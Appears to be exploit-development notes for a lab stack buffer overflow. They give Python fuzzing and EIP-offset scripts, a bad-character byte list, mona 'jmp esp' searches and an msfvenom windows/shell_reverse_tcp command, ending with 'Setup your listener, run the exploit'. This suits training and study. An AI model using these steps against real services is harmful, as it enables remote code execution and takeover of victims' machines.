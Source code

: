 # Methodology

## Spiking/Fuzzing

Also we can use boofuzz. This python module will do a lot of work for us and also create a database of results.

```python
#!/usr/bin/env python3
from boofuzz import *

RHOST = "127.0.0.1"
RPORT = 9999

s = Session(target=Target(connection=SocketConnection(RHOST,RPORT,proto="tcp")))

s_initialize("FUZZER")

s_string("change_me", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("fuzzme")

s.connect(s_get("FUZZER"))
s.fuzz()
```

```text
generic_send_tcp
```

## Finding offset of EIP

This script can five us general idea.

```python
#!/usr/bin/env python3
import sys, sockets
from time import sleep

buffer = "1" * 64
RHOST = "127.0.0.1"
RPORT = 9999

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send("change_me " + buffer)
        s.close()
        sleep(1)
        buffer = buffer + "1"*64
    except:
        print("Crashed at buffer length of: " + str(len(buffer)))
```

Better way to find EIP is to send a non-repeating pattern of characters.

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

# pwn cyclic 4000
# OR msf-pattern_create -l 4000
cyclic_pattern = b"..."

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    cyclic_pattern
])

s.send(payload)
s.interactive()
```

## Overwriting EIP

Now we can overwrite EIP with four 2's \(0x32323232\).

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

offset = 2014

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    b"1"*2014,
    b"2"*4
])

s.send(payload)
s.interactive()
```

## Finding bad characters

To be able to find "bad" characters, we'll send all 256 bytes and then search in debugger for anomalies

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

badchars = b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"+
b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"+
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"+
b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"+
b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"+
b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"+
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"+
b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"+
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"+
b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"+
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"+
b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"+
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"+
b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"+
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"+
b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    badchars
])

s.send(payload)
s.interactive()
```

## Finding the right module

You can list modules with `!mona modules` command, and find unsecured module.

Then try to find position of `jmp esp` instruction\(`FF E4`\)

```text
!mona jmp -r esp
!mona find -s "\xff\xe4" -m <unsecure_module>
```

## Generating shellcode

Generating shellcode with msfvenom is easy.

```text
msfvenom -p <payload> LHOST=<lhost> LPORT=<lport> EXITFUNC=thread -f c -a <architecture> -b <bad_bytes>

# example
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8990 EXITFUNC=thread -f c -a x86 -b "\x00"
```

## Root

Setup your listener, run the exploit, profit.

